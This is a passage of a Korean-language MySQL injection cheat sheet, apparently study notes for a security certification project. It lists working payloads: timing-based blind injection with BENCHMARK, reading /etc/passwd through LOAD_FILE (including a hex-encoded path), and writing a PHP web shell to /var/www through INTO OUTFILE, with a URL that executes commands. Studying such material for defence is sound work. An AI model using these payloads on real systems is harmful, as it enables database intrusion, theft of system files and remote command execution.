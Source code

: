 ![스크린샷 2024-04-17 오후 2 26 37](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/47812b85-e77c-4619-89a4-205f2563b685)<br><br>

예 :<br>
`SELECT IF(1=1, true, false);`<br>
`SELECT CASE WHEN 1=1 THEN true ELSE false END;`<br><br><br>



## (13) 타이밍

![스크린샷 2024-04-17 오후 2 27 11](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/81e1a2d6-c1de-40de-abbb-a9c45b63ea51)<br><br>


예 :<br>
`' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '`<br><br><br>



## (14) 특권

**① 파일 특권**<br><br>

다음 쿼리는 주어진 사용자에 대한 FILE 특권을 판별하는데 도움을 줄 수 있음.<br><br>

![스크린샷 2024-04-17 오후 2 27 52](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/47f99eb8-2913-4b6d-84c0-459725f62591)<br><br><br>



## (15) 파일 읽기

사용자에게 FILE 특권이 있으면 파일을 읽을 수 있음.<br><br>

`LOAD_FILE()`<br><br>

예 :<br>
`SELECT LOAD_FILE('/etc/passwd');`<br>
`SELECT LOAD_FILE(0x2F6574632F706173737764);`<br><br>

노트 :<br>
파일은 서버 호스트에 있어야 함.<br>
LOAD_FILE() 에 대한 basedirectory 는 @@datadir 임.<br>
이 파일은 MySQL 사용자가 읽을 수 있어야 함.<br>
파일 크기는 max_allowed_packet 보다 작아야 함.<br>
@@max_allowed_packet 의 기본 크기는 1047552 바이트임.<br><br><br>



## (16) 파일 쓰기

사용자에게 FILE 특권이 있으면 파일을 작성할 수 있음.<br><br>

`INTO OUTFILE/DUMPFILE`<br><br>

예 :<br>
`PHP 쉘을 작성하려면 :`<br>
`SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';`<br>
`다음 위치에서 액세스하십시오 :`<br>
`hxxp://localhost/shell.php?c=cat%20/etc/passwd`<br><br>


[KOROMOONlink]: https://koromoon.blogspot.com/2018/10/mysql-injection-cheet-sheet.html "Go KOROMOON"